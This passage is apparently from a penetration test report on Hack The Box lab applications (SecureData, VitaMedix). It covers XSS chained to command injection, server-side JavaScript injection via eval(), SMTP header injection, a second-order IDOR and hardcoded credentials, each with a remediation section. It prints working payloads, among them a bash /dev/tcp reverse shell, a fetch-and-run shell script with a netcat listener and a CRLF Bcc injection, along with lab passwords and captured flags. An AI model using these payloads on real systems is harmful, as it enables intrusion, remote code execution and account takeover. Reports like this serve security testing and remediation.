The reverse shell script needs to be hosted by a webserver so that the victim server can download it. A simple alternative for this is using Python's http server module:


```
python -m http.server <Webserver PORT>
```

Additionally, there needs to be a netcat listener waiting for the reverse shell to connect back, this IP and PORT needs to reflect the values inside shell.sh:

```
nc -lvp <Shell PORT>
```

**Step 3: Inject the chained payload**

Submit a request with an XSS payload in the `X-Forwarded-For` header. The payload trigger causes anyone viewing it to contact the internal API `/service_status` endpoint with the shell execution command in the `service` parameter:

```bash
curl -X GET "http://securedata.htb/home.php" \
  -H "Cookie: session=<Authenticated user token>" \
  -H "X-Forwarded-For: :<Webserver PORT>/shell.sh+-o+/tmp/s.sh;python3+/tmp/s.sh');x.send();\">"
```

**Step 3: Wait for payload execution**

When an internal user or automated process views the poisoned logs in the admin panel, the JavaScript executes in their browser context. Since their browser has access to the internal API, the malicious request is sent to `/service_status`, triggering command injection on the API server.

**Step 4: Receive the reverse shell**

The API server executes the injected commands, fetching and running the reverse shell script. The attacker's listener receives a connection.

{width="auto"}


#### Code Analysis


#### Patching and Remediation

The `service` parameter should be validated against a strict allowlist of permitted service names (e.g., `apache2`, `nginx`, `mysql`). Any input containing shell metacharacters such as `;`, `|`, `&`, `$`, backticks, or newlines should be rejected outright.

Where possible, shell command execution should be avoided entirely. Instead of executing shell commands, use direct system APIs or libraries to check service status. If shell execution is unavoidable, use parameterized execution methods that do not interpret shell metacharacters, such as passing arguments as an array rather than a concatenated string.

Additionally, the API should not rely solely on IP-based access controls, as these were bypassed via XSS. Implementing proper authentication and authorization on the API endpoints, such as API keys or tokens that cannot be obtained or replayed through client-side attacks, would provide defense in depth.


### VitaMedix - Server-Side JavaScript Injection via eval() {#5817ed19-e137-4c44-985b-bcc5cab13274}

#### CWE

CWE-95

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:H/SC:H/SI:H/SA:H (9.4 - Critical)

#### Affected Component(s)

* Newsletter.VitaMedix.htb - endpoint ` /api/settings/save` 

#### External References


#### Description & Cause

A critical server-side JavaScript injection vulnerability exists in the newsletter settings functionality. User-controlled input from the `greeting` parameter is directly interpolated into a string passed to `eval()`. Although a character blacklist attempts to prevent injection, the malicious code executes *before* the validation check completes, allowing an authenticated attacker to achieve Remote Code Execution (RCE) on the server.


#### Security Impact

This vulnerability allows an authenticated attacker to execute arbitrary system commands on the underlying server with the privileges of the Node.js process. 

An attacker can read sensitive files including application source code, configuration files, and database contents. They can write arbitrary files, modify application behavior, and establish persistent reverse shell access to the server. From this position, an attacker could pivot to internal network resources, compromise other users and services on the host, or use the server as a staging point for further attacks.


#### Detailed Walkthrough

For an authenticated user to the newsletter application, the `saveSettings()` function validates the `greeting` parameter by checking for blacklisted characters (`#`, `;`, `'`, `"`, `\`). However, this validation is performed *inside* the `eval()` function itself. Due to JavaScript's execution order, any injected code runs before the validation result is processed.

An attacker can escape the string context using JSON-escaped quotes (`\"` becomes `"` after JSON parsing) and inject arbitrary JavaScript. Furthermore, since only the `greeting` property is validated, an attacker can add arbitrary properties to the JSON body (e.g., `"evil": "<payload>"`) and reference them via `eval(settings.evil)`, bypassing both the 30-character limit and character restrictions entirely.

Once this was identified by the tester, they prepared this payload to send as a  POST request to "/api/settings/save":

```
{
  "name": "Michael",
  "email": "michael@vitamedix.htb",
  "frequency": "daily",
  "timezone": "UTC",
  "greeting": "\"+eval(settings.evil)+\"",
  "feedback": "no",
  "heatmaps": "no",
 "evil": "require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\"')"
}
```

Before submitting, the tester opened a listener using netcat with the command "**nc -lvp 4444**". Once the payload was submitted, the application placed the payload into eval which lead to a connection being opened to the testers machine:

{width="auto"}


#### Code Analysis


The `settings.greeting` value is directly interpolated into the template literal passed to `eval()`. Although the code attempts to validate for dangerous characters, the injected code executes *before* the validation result is processed.

**File: `<Newsletter Github>/src/database.js` (Lines 136-145)**

```javascript
        // validate greeting length & bad chars (no bad special characters to avoid SQL injections)
        if (
          settings.greeting.length > 30 || // max length of 30 chars
          eval(
            `var specialChars = ['#', ';', '\\'', '"', '\\\\']; "${settings.greeting}".split('').some(char => specialChars.includes(char))`
          )
        ) {
          reject("Invalid greeting (max 30 chars)!");
          return;
        }
```

#### Patching and Remediation

Replace the `eval()` call with a regular expression test that performs the same character validation. 

**File: `<Newsletter Github>/src/database.js`**
```javascript
if (
  settings.greeting.length > 30 ||
  /[#;'"\\]/.test(settings.greeting)
) {
  reject("Invalid greeting (max 30 chars)!");
  return;
}
```

The regex `/[#;'"\\]/` performs the same check as the original `eval()` - testing if the greeting contains any of the blacklisted characters (`#`, `;`, `'`, `"`, `\`) - without executing the input as code.

**Additional hardening considerations:**

As a defence-in-depth measure, consider validating the request body against a strict schema that rejects unexpected properties. This exploit leveraged an additional `evil` property to bypass length restrictions on the `greeting` field. Schema validation libraries such as Joi or Yup can enforce `.strict()` mode to reject unknown fields.


### VitaMedix - SMTP Header Injection in Password Reset Functionality {#28dc6a62-8834-439d-b031-9d9cdc65126c}

#### CWE

CWE-93

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:L/SC:N/SI:N/SA:N (8.8 - High)

#### Affected Component(s)

* Selfservice.VitaMedix.htb - Password Reset Email Function (` /reset`  endpoint)

#### External References


#### Description & Cause

The password reset functionality does not sanitize CRLF characters in user-supplied email addresses, allowing an attacker to inject arbitrary SMTP headers and receive copies of password reset emails intended for other users.


#### Security Impact

An attacker can exploit this vulnerability to intercept password reset tokens for any user account by injecting a `Bcc` header containing their own email address. This allows full account takeover without requiring any victim interaction. Privileged accounts such as administrators or doctors could be compromised, potentially exposing sensitive patient data or internal functionality. Additonally, since it causes an immediate password reset it could be used to lock a user out of their account.


#### Detailed Walkthrough

The password reset functionality at `selfservice.vitamedix.htb` accepts an email address parameter to identify the user requesting a password reset. This email value is incorporated into the SMTP headers of the outgoing reset email without proper sanitization of CRLF (Carriage Return Line Feed) control characters.


SMTP headers are separated by CRLF sequences (`\r\n\`). When these characters are not stripped or encoded from user input, an attacker can terminate the current header and inject additional headers into the email message.


By using the following command, an attacker can inject a \`Bcc\` header in the email sent with the new password for the user michael. This causes the mail server to send a blind carbon copy of the password reset email to an attacker-controlled address:

```
curl -X POST 'http://selfservice.vitamedix.htb/reset.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'email=michael@vitamedix.htb%0d%0aBcc:%20smtp-dev@vitamedix.htb%0d%0aX-Dummy:%20abc'
```

| Segment | Purpose |
|---------|---------|
| `michael@vitamedix.htb` | Legitimate target user |
| `%0d%0a` | URL-encoded CRLF to terminate the current header |
| `Bcc:%20smtp-dev@vitamedix.htb` | Injected Bcc header with attacker's email |
| `%0d%0a` | CRLF to start a new header |
| `X-Dummy:%20abc` | Dummy header to absorb any trailing characters |

**Note: The tester found written credentials for smtp-dev@vitamedix.htb due to the Second-Order IDOR vulnerability, which is why it's used as Bcc.**

{width="auto"}


#### Code Analysis


#### Patching and Remediation

The most effective approach to preventing SMTP header injection is to avoid using user-supplied input in SMTP headers unless absolutely necessary. When user input must be incorporated into email headers, all data should be URL-encoded before inclusion to ensure that CRLF characters and other control sequences are neutralized. In PHP, this can be accomplished using the \`urlencode\` function, which encodes all non-alphanumeric characters including CR and LF. For Node.js applications, equivalent encoding should be applied using \`encodeURIComponent\` or dedicated sanitization functions.

Additionally, strict input validation should be implemented to reject email addresses containing CRLF characters (\`\r\`, \`\n\`, \`%0d\`, \`%0a\`) outright, returning an error to the user rather than attempting to process the malformed input. Modern email libraries such as Nodemailer typically include built-in protections against header injection when configured with default settings, and developers should verify that these protections are enabled and not bypassed by custom header handling code.


### VitaMedix - Second-Order IDOR via Session Variable Manipulation {#d4dee736-a418-498b-aa46-93545715d3af}

#### CWE

CWE-639

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N (7.1 - High)

#### Affected Component(s)

* Storage.VitaMedix.htb - Document retrieval  (` reports.php` )

#### External References

* https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html

#### Description & Cause

The storage application contains a Second-Order Insecure Direct Object Reference (IDOR) vulnerability caused by a Time-of-Check to Time-of-Use (TOCTOU) flaw. A TOCTOU flaw occurs when a security check and the subsequent use of the checked resource happen at different times, allowing an attacker to manipulate the state between the check and the use. The application stores a user-supplied file ID in the session before validating access permissions, and the session is only cleared if the user follows the redirect to the error page. An attacker can access arbitrary files belonging to other users by requesting a file they don't own and then directly navigating to the render page without following the error redirect.


#### Security Impact

An authenticated attacker can bypass authorization controls to read any file stored in the vault belonging to any user. This could result in unauthorized disclosure of sensitive medical records, personal health information, credentials, or other confidential data stored by other users of the application.


#### Detailed Walkthrough

The vulnerability exists due to improper session handling across three PHP files:

1. **reports.php** stores the user-supplied `id` parameter into `$_SESSION['id']` *before* performing the access check via `check_access()`.
2. When access is denied, the application issues a 302 redirect to **error.php**, but the session variable remains set until `error.php` is actually visited.
3. **render.php** retrieves file data using `$_SESSION['id']` without re-validating that the current user has permission to access that file.

An attacker can exploit this by:

1. Authenticating as any valid user
2. Requesting `/reports.php?id=<victim_file_id>` and ignoring the redirect to `error.php`
3. Directly accessing `/render.php`, which fetches the victim's file using the attacker's session

By using the script [IdorScanner.py](exploits/IdorScanner.py), the tester enumerated all files present, fetching number 133 containing credentials:

{width="auto"}

## Steps to Reproduce

**Step 1: Authenticate as any valid user**

Log in to the application with any standard user account.

**Step 2: Poison the session with a target file ID**

Request a restricted file ID via `reports.php`, ignoring the redirect to `error.php`:

```bash
curl -X GET "http://storage.vitamedix.htb/reports.php?id=<victim_file_id>" \
  -H "Cookie: PHPSESSID=<your_session>" \
  --max-redirs 0
```

The application stores the attacker-supplied `id` into `$_SESSION['id']` before the access check fails and issues the redirect.

**Step 3: Access the file via render.php**

Directly request `/render.php`, which retrieves the file using the session-stored ID without re-validating permissions:

```bash
curl -X GET "http://storage.vitamedix.htb/render.php" \
  -H "Cookie: PHPSESSID=<your_session>"
```

The server responds with the victim's file contents.

**Step 4: Enumerate all files**

```bash
python3 IdorScanner.py
```

The script iterates through file IDs, retrieving all accessible files. Entry 133 contained credentials:

{width="auto"}


#### Code Analysis

The code for reports.php shows how the id is stored in the session before running check access:

**File: `/src/reports.php` (Lines 10-18)**
```
  $_SESSION['id'] = $_GET['id']; //Sets the 'id' within the session before checking access

  if(check_access($_SESSION['id'], $_SESSION['user'])){
    header("Location: render.php");
	  exit;
  } else {
    header("Location: error.php");
	  exit;
  }
```

Then render.php shows how the data fetch will grab any data pointed to by 'id' in the session:
**File: `/src/render.php` (Lines 10-11)**
```
  $user_data = fetch_user_data($_SESSION['user']);
  $data = fetch_data($_SESSION['id']); // fetched without checking authentication.
```

#### Patching and Remediation

Ensure that the session variable is only set after the access check has been confirmed. The file can be accessed as soon as the session variable `id` is set, therefore this session variable must only be set after access has been validated.


```
  if(check_access($_GET['id'], $_SESSION['user'])){
    $_SESSION['id'] = $_GET['id'];  // Only store AFTER access check passes
    header("Location: render.php");
    exit;
  } else {
    header("Location: error.php");
    exit;
  }
```

As an additional defense-in-depth measure, consider re-validating access at the point of use in `render.php` before fetching data, and clearing sensitive session variables immediately upon access denial rather than relying on a redirect to `error.php`.


### VitaMedix - Hardcoded Credentials in Source Code Repository {#51bf4a0e-fd91-4566-a578-af6133217761}

#### CWE

CWE-798

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N (8.7 - High)

#### Affected Component(s)

* Git.VitaMedix.htb

#### External References


#### Description & Cause

Multiple sensitive credentials were discovered committed to the source code repositories for the Vitamedix applications. These include database credentials for MySQL and CouchDB, as well as the administrative password for the PiHole DNS server. An attacker with read access to the repository could use these credentials to access backend databases or administrative interfaces depending on access limitations.


#### Security Impact

The exposure of these credentials allows unauthorized access to multiple components of the Vitamedix infrastructure. The MySQL credentials for the "henry" user were confirmed to be valid for authenticating to the storage.vitamedix.htb application. The PiHole administrative password grants access to the DNS server's management interface, which could potentially be leveraged for DNS-based attacks such as DNS rebinding to bypass localhost restrictions, though this was not required during the test. The CouchDB administrative credentials could permit direct access to the database if the service is reachable.

#### Detailed Walkthrough

Hardcoded credentials occur when developers embed sensitive values such as passwords, API keys, or cryptographic secrets directly into source code or configuration files that are then committed to version control. This practice is dangerous because version control systems retain historical data indefinitely, meaning that even if credentials are later removed from the current codebase, they remain accessible in the repository history. Anyone with read access to the repository, including current and former employees, contractors, or attackers who compromise the repository, can extract these credentials.

The tester performed the attack by conducting a source code review of the Vitamedix application repositories. Hardcoded credentials were identified in multiple configuration files across three components. The tester extracted the MySQL credentials from \`config.php\` and attempted to authenticate to the storage.vitamedix.htb application using the "henry" username and the discovered password. This resulted in successful authentication, confirming the credentials were valid for the production environment.

**File: `Storage.vitamedix.htb/src/config.php`**
```php
$servername="127.0.0.1";
$dbusername="henry";
$password="H3nry_V@ulT_d3v!";
$dBName="db";
```

{width="auto"}

 Additionally, the PiHole web interface password was used to access the DNS server's administrative panel.

**File: `DNS-Server/docker-compose.yml`**

```
  pihole:
    container_name: pihole
    image: pihole/pihole:latest
    ports:
      - "53:53/tcp"
      - "53:53/udp"
      - "8006:80/tcp"
    environment:
      WEBPASSWORD: "pihole"
```

{width="auto"}


#### Code Analysis


#### Patching and Remediation

All exposed credentials should be considered compromised and must be rotated immediately. This includes generating new passwords for the MySQL "henry" user, the CouchDB "admin" user, and the PiHole web interface.

Credentials should never be stored in source code repositories. Instead, implement a secrets management solution appropriate to the deployment environment. For local development, use environment variables loaded from `.env` files that are explicitly excluded from version control via `.gitignore`. Ensure that `.env`, `*.config` files containing secrets, and similar sensitive files are added to `.gitignore` before the repository is initialized.

Implement pre-commit checks for credentials or scan for accidentally committed secrets using tools such as git-secrets, truffleHog, or GitHub's secret scanning feature. Conduct a comprehensive review of the git history to identify any additional exposed credentials.


## Appendix {#appendix}

### Finding Severities {#finding-severities}

Each finding has been assigned a severity rating of critical, high, medium, low or info. The rating is based off of an assessment of the priority with which each finding should be viewed and the potential impact each has on the confidentiality, integrity, and availability of data.

| Rating   | CVSS Score Range |
| -------- | ---------------- | 
| Critical | 9.0 – 10.0       |
| High     | 7.0 – 8.9        |
| Medium   | 4.0 – 6.9        |
| Low      | 0.1 – 3.9        |
| Info     | 0.0              |


### Flags Discovered {#flags-discovered}

| Flag # | Application           | Flag Value | Method Used           |
| ------ | --------------------- | ---------- | --------------------- |
| 1.     | **RoyalFlush - Auth** | **ffc9367bc602650b259d3fad5b17aa9e**|**Authentication Bypass**|
| 2.     | **RoyalFlush - RCE**  |**55c290e8bea25267f9bb529f17125ea8**|**Deserialization**|
| 3.     | **SecureData - Auth** |**327c73e1dea06872dff9eeaa5ba7b94b**|**Stored Cross-Site Scripting (XSS)**|
| 4.     | **SecureData - RCE**  |**6e174a0e8cf730ae9ba37f00d9f22218**|**Remote Code Injection (RCE)**|
| 5.     | **VitaMedix - Auth**  |**2b44972d37baf507b8917e7d83a5d726**|**SMTP Header Injection**|
| 6.     | **VitaMedix - RCE**   |**3501f1ddaf5b94a8b1a4f980629a4ec6**|**Server-Side JavaScript Injection via eval()**|


### Exploits {#exploits}

The exploit scripts used during this penetration test are attached as files in the `exploits` directory of the submitted `zip` file.


